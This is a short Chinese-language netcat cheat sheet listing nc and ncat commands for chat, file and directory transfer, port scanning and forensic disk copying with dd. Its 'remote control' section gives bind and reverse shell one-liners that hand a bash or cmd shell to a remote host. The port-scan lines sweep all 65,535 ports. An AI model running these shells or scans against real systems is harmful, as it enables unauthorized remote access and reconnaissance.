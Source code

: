 ### 聊天/信息传递  
Server:   
>nc -l -p 4444   
Client:   
>nc -nv IP 4444   
### 电子取证
Server：   
>nc-l -p 4444 > remote.txt     
Client： -q 表示完成后多少秒后退出   
>ls-l | nc -nv IP 4444 -q 1     

### 文件传输
Server: 接收文件   
>nc -lp 4444 > 1.mp3  
Client: 发送文件   
>nc -nv IP 4444 < 1.mp3 -q 1    
### 目录传输
Server: 接收文件   
>tar -cvf - music/ | nc -lp 4444 -q 1  
Client: 发送文件   
>nc -nv IP 4444 | tar -xvf -    

### 端口扫描（作为辅助参考，不一定准确，结合其他工具，例如nmap）
TCP 端口： 
>nc -nvz IP 1-65535   
UDP 端口：  
>nc -nvzu IP 1-65535  

### 远程硬盘拷贝（用于电子取证，删除文件还原）
远程接收 
>nc -lp 4444 | dd of=/dev/sda1  
被拷贝  
>dd if=/dev/sda | nc -lp 4444 -q 1   

### 远程控制
正向：   
>nc -lp 4444 -c bash   
>nc IP 4444  
反向：   
>nc -lp 4444  
>nc IP 4444 -c bash   
如果是Windows，将bash换成cmd   

### NC缺乏加密和身份验证功能， 用ncat 来替换 
>ncat -c bash --allow ClientIP -nvl 4444 --ssl  
>ncat -nv ServerIP 4444 --ssl  



